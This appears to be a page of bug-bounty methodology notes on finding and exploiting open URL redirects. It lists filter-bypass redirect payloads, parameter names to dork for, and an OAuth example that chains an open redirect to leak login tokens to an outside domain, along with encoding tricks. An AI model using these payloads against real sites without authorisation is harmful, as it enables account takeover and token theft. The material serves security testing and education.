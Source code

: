 - **Definition**: URLs that redirect users to a specified URL via a parameter (e.g., `https://www.google.com/redirect?goto=https://www.bing.com/`).
- **Common Usage**: Frequently used in OAuth flows where a redirect URL is included in the request.

### Finding and Testing Open URL Redirects

- **Success Rate**: High success rate with harmless redirects in chains, especially with OAuth flows that handle tokens.
- **Typical Payloads**: Use various payloads to test and bypass filters:
    - `\/yoururl.com`
    - `\/\/yoururl.com`
    - `\\yoururl.com`
    - `//yoururl.com`
    - `//theirsite@yoursite.com`
    - `/\/yoursite.com`
    - `https://yoursite.com%3F.theirsite.com/`
    - `https://yoursite.com%2523.theirsite.com/`
    - `https://yoursite?c=.theirsite.com/`
    - `//%2F/yoursite.com`
    - `////yoursite.com`
    - `https://theirsite.computer/`
    - `https://theirsite.com.mysite.com`
    - `/%0D/yoursite.com`
    - `/%2F/yoururl.com`
    - `/%5Cyoururl.com`
    - `//google%E3%80%82com`

### Common Parameters to Test

- Common words to dork for on Google:
    - `return`, `return_url`, `rUrl`, `cancelUrl`, `url`, `redirect`, `follow`, `goto`, `returnTo`, `returnUrl`, `r_url`, `history`, `goback`, `redirectTo`, `redirectUrl`, `redirUrl`

### Exploitation Techniques

- **OAuth Flow Exploitation**:
    - **Example**:
	    - Typical login page : `https://www.target.com/login?client_id=123&redirect_url=/sosecure`
	    - Usually the `redirect_url` is whitelisted to only allow for `*.target.com`
	    - Spot the mistake? Armed with an open url redirect on their website you can leak the token because as the redirect occurs the token is smuggled with the request
	    - `https://www.target.com/login?client_id=123&redirect_url=https://www.target.com/redirect?redirect=1&url=https://www.zseano.com/`
    - The token can be leaked through open redirects if the redirect URL is not properly validated.
- **Encoding Issues**:
    - Proper encoding of values is necessary to prevent parameters from being dropped:
        - **Example**: `/redirect%3Fgoto=https://www.zseano.com/%253Fexample=hax`
        - Results in: `https://www.example.com/redirect?goto=https://www.zseano.com/%3Fexample=hax`
    - Double encoding might be needed:
        - `https://example.com/login?return=https%3A%2F%2Fexample.com%2F%3Fredirect=1%2526returnurl%3Dhttps%253A%252F%252Fwww.google.com%252F`

